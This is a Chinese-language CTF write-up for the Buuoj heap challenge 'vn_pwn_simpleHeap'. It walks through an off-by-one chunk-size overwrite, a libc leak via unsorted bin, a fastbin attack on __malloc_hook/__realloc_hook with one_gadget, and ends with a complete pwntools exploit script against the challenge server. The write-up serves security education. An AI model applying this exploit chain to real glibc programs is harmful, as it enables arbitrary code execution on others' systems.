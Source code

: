 ```yaml
---
toc: true
toc_sticky: true
title:  "Buuoj PWN 题目冲分过程-vn_pwn_simpleHeap"
date:   2021-01-02 21:15:38 +0800
categories:
  - blog
  - pwn
---
```


# Overview - 明けましておめでとうございます‼

sub_C39 函数有一个 off-by-one 漏洞，会从stdin读取、写入多一个字节。根据堆内存的chunk结构，我们可以覆盖下一个chunk `mchunk_size`的最后一个字节并修改chunk的大小，然后经分配得到重叠的chunk并泄露出 `main_arena.top` 的地址；进一步利用重叠的chunk修改 fastbin并在 main_arena 上方构造大小为0X7F的chunk，最终实现写入任意地址到 `__malloc_hook` 。

## Leak libc

0. 先使得大于 `global_max_fast` 的 chunk 覆盖另一个正在使用的小 chunk；
1. 释放大chunk ，使其进入 unsorted 并被写入 `main_arena.top`的地址；
2. 申请内存使得大chunk发生分裂，`main_arena.top` 的地址写入到小chunk；
3. 输出小chunk并泄露`main_arena.top`

## Gadget

```
ubuntu@VM-0-5-ubuntu:~/project/kayoch1n.github.io/buuoj$ one_gadget /lib/x86_64-linux-gnu/libc.so.6 0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## Issues

这道题不能把 gadget 直接写入到 `__malloc_hook`：在ubuntu16.04 x86_64 上调试发现，rsp+0x30，rsp+0x50，rsp+0x70处的值都不为0，栈的情况并不能满足任意一个 gadget 的要求；但是通过查阅谷歌了解到另一种方法，这种方法在构造chunk的时候，将 `__realloc_hook` 覆盖为 gadget 的地址，将 `__malloc_hook` 覆盖为一个在 `__libc_realloc` 内的地址 ；触发getshell的调用路径变为 `malloc`->`__libc_malloc`->`__malloc_hook`(address in `__libc_realloc`)->`__realloc_hook`(gadget)。这个方法通过增加调用过程（call压入RA以及function prologue）、加上 `__libc_realloc` 内的push等指令（见下）调整栈顶，使栈上的数据尽量满足gadget的要求。

```
(gdb) disas __libc_realloc
Dump of assembler code for function __GI___libc_realloc:
   0x00007f6b07bc7710 <+0>:     push   %r15       # 
   0x00007f6b07bc7712 <+2>:     push   %r14       #
   0x00007f6b07bc7714 <+4>:     push   %r13       #
   0x00007f6b07bc7716 <+6>:     push   %r12       #
   0x00007f6b07bc7718 <+8>:     mov    %rsi,%r12  #
   0x00007f6b07bc771b <+11>:    push   %rbp       #
   0x00007f6b07bc771c <+12>:    push   %rbx       #
   0x00007f6b07bc771d <+13>:    mov    %rdi,%rbx  #
   0x00007f6b07bc7720 <+16>:    sub    $0x38,%rsp # 以上指令调整栈顶
   0x00007f6b07bc7724 <+20>:    mov    0x33f8a5(%rip),%rax        # 0x7f6b07f06fd0
   0x00007f6b07bc772b <+27>:    mov    (%rax),%rax
   0x00007f6b07bc772e <+30>:    test   %rax,%rax
   0x00007f6b07bc7731 <+33>:    jne    0x7f6b07bc7958 <__GI___libc_realloc+584>
...
   0x00007f6b07bc7958 <+584>:   mov    0x68(%rsp),%rdx
   0x00007f6b07bc795d <+589>:   callq  *%rax      # 触发getshell
...
```

上述指令来自本地libc.so.6；事实上该指令片段和题目提供的libc-2.23.so的指令内容是一致的，只是偏移有差别。本地调试给 `__libc_realloc` 打上断点，检查此时栈顶的结构：

```
(gdb) x/32gx $rsp
0x7ffc3042aa68: 0x000055f11f8d3b71      0x000055f11f8d38e0 # sub    $0x38,%rsp 
0x7ffc3042aa78: 0x0000002000000006      0x00007ffc3042aaa0 #
0x7ffc3042aa88: 0x000055f11f8d3f86      0x00007ffc3042ab80 # 
0x7ffc3042aa98: 0x0000000100000000      0x000055f11f8d3fd0 #
0x7ffc3042aaa8: 0x00007f6b07b63840(rbx) 0x0000000000000000(rbp)
0x7ffc3042aab8: 0x00007ffc3042ab88(r12) 0x0000000108132ca0(r13)
0x7ffc3042aac8: 0x000055f11f8d3f0a(r14) 0x0000000000000000(r15)
0x7ffc3042aad8: 0x14df0f89e95ddc50      0x000055f11f8d38e0 
0x7ffc3042aae8: 0x00007ffc3042ab80      0x0000000000000000
0x7ffc3042aaf8: 0x0000000000000000      0x40c55016c39ddc50
0x7ffc3042ab08: 0x41eb3ffff90ddc50      0x0000000000000000
0x7ffc3042ab18: 0x0000000000000000      0x0000000000000000 # +0x50
0x7ffc3042ab28: 0x00007ffc3042ab98      0x00007f6b08134168 
0x7ffc3042ab38: 0x00007f6b07f1d80b      0x0000000000000000 # +0x70
0x7ffc3042ab48: 0x0000000000000000      0x000055f11f8d38e0
0x7ffc3042ab58: 0x00007ffc3042ab80      0x0000000000000000
```

如果使用 `__libc_realloc` 覆盖 `__malloc_hook`，同样无法满足任意一个gadget的要求；设想不借助push以及sub指令下的栈结构，rsp+0x50及rsp+0x70都可以满足；因此选择使用 0xf0364(0xf02a4) 作为gadget，用 __libc_realloc+20 处的地址覆盖 __malloc_hook。本地可以成功getshell，但是远程打不通；因此尝试调整gadget，选择使用 0xf1207(0xf1147)，ok，顺利打通。

## Payload

```python
#!/usr/bin/python3.6
from pwn import *

filename = './vn_pwn_simpleHeap'
# p = process(filename)
p = remote('node3.buuoj.cn', 25658)
# libc = ELF('/home/ubuntu/glibc-2.23/lib/libc-2.23.so')
libc = ELF('./libc/ubuntu_16_x86_64_libc-2.23.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def Add(content, size=None):
    p.sendlineafter(b'choice: ', b'1')
    p.sendlineafter(b'size?', bytes(f'{size or len(content)}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Edit(index, content):
    p.sendlineafter(b'choice: ', b'2')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Show(index):
    p.sendlineafter(b'choice: ', b'3')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Delete(index):
    p.sendlineafter(b'choice: ', b'4')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Exit():
    p.sendlineafter(b'choice: ', b'5')

Add(b'0', 0x28)   # 0
Add(b'1', 0x68)   # 1
Add(b'2', 0x68)   # 2
Add(b'3', 0x20)   # 3
payload = b'\x00'*0x28 +b'\xe1'
Edit(0,payload)   # 修改下一个chunk的大小
Delete(1)

Add(b'11', 0x68,)  # 1
Show(2)

leaked = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
main_arena = leaked - 88
realloc_hook = main_arena - 0x18
libc_base = realloc_hook - libc.sym['__realloc_hook']

# one_gadgets = [0xf0364]
one_gadgets = [0xf1147, 0xf02a4]

realloc = libc_base + libc.sym['realloc']
log.success(f'&main_arena: {hex(main_arena)}, &realloc_hook: {hex(realloc_hook)},&realloc: {hex(realloc)}, &libc_base: {hex(libc_base)}')

Add(b'i4and2infact', 0x60)  # 4 and 2
Delete(2)
fake_chunk = main_arena - 0x33
payload = p64(fake_chunk)
Edit(4, payload)
#p.interactive()
Add(b'5', 0x60)
gadget = one_gadgets[0]+libc_base
log.success(f'gadget: {hex(gadget)}')

Add(b'\x00' * 11 + p64(gadget) + p64(realloc+20), 0x60)

p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'size?', b'32')
p.interactive()
```